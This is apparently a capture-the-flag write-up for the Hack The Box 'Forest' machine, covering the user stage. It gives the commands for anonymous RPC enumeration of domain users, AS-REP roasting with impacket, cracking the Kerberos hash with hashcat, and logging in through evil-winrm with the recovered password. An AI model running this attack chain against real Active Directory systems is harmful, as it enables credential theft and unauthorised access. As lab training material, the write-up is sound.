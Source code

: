 # user

## rpcclient
````bash
rpcclient -U "" -N 10.10.10.161
````

![](src/Forest.HTB-01.gif)

rpcclient allowing logon without password

<HR>

## enumerating users
````bash
rpcenumusers
````

![](src/Forest.HTB-02.gif)

<div class="myprediv">
user:[<span class="myYellow">sebastien</span>] rid:[0x479]
user:[<span class="myYellow">lucinda</span>] rid:[0x47a]
user:[<span class="myYellow">svc-alfresco</span>] rid:[0x47b]
user:[<span class="myYellow">andy</span>] rid:[0x47e]
user:[<span class="myYellow">mark</span>] rid:[0x47f]
user:[<span class="myYellow">santi</span>] rid:[0x480]
</div>



## users

sebastien
lucinda
svc-alfresco
andy
mark
santi

<HR>

## AS-REP Roasting



```
python3 impacket/GetNPUsers.py htb.local/ -usersfile users.txt -format hashcat -outputfile hashes.txt
```

![](src/Forest.HTB-03.gif)


````bash
cat hashes.txt 
$krb5asrep$23$svc-alfresco@HTB.LOCAL:4104ec598c10d98c4ac31c3b85d58e9e$d270f2be4d4f5f6acf581985a9929e34db1488cff5dc2f0773c31ef4f74734e1ef4aa9fe672feeb5b855ed63506b3991853c6b3faf129a67b6daa651ae7081b8dfe57eda8693e6d4682fbdfe342e54a9478072f8ac9b2cf6dc48c8fcbd27dcd385dbe068c8d7c53f224202bc37765abe1f8a58dac77a1bc82c44338c4eed04a6c926f8944a6238fecd527e881da12a2d75d3929d849945978343ee38378b09767d09bb6f95f3231bcbc56a35714cf4a3b57d7eaacc4d43db336bf86e77b9734aeb2fb860f4feae32bfa38149ca9afa6945c4c8da526a5f6c22aab3c7e7c6f625b073c8cd7063
````
	

<HR>

## haschcat

````bash
hashcat -m 18200 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt --force -o result.txt
````
![](src/Forest.HTB-04.gif)

credentials are <span class="myYellow" style="font-weight:bold;">svc-alfresco:s3rvice</span>
	
<HR>
	

## evil-winrm

 if not installed, install evil-winrm using

````bash
sudo gem install evil-winrm
````

login with evil-winrm

````bash
evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
````

![](src/Forest.HTB-05.gif)

